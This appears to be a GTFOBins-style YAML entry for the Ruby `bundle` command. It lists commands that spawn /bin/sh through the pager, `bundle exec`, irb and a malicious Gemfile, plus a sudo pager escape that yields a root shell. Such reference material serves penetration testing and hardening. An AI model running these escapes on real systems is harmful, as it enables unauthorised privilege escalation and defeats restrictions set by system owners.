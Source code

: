  shell:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        bundle help
        !/bin/sh
    - code: |
        export BUNDLE_GEMFILE=x
        bundle exec /bin/sh
    - code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundle exec /bin/sh
    - description: This spawns an interactive shell via [`irb`](/gtfobins/irb/).
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundle console
        system('/bin/sh -c /bin/sh')
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/Gemfile
        cd $TF
        bundle install
  sudo:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo bundle help
        !/bin/sh
---
